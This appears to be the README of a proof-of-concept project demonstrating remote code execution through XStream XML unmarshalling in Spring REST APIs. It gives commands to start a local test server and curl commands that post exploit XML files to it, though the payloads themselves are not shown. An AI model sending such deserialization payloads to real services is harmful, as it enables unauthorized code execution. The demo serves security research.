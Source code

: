 XStreamServer
=============

RCE Exploit PoC for Spring based RESTFul APIs using XStream as Unmarshaler

Start the server using the maven jetty plugin:
mvn -Djetty.port=8080 -DDebug clean  jetty:run

Expected use:
curl --header "content-type: application/xml" --data @contact.xml "http://localhost:8080/contacts"

Exploit knowing the interface:
curl --header "content-type: application/xml" --data @exploit.xml "http://localhost:8080/contacts"

Generic Exploit:
curl --header "content-type: application/xml" --data @exploit2.xml "http://localhost:8080/contacts
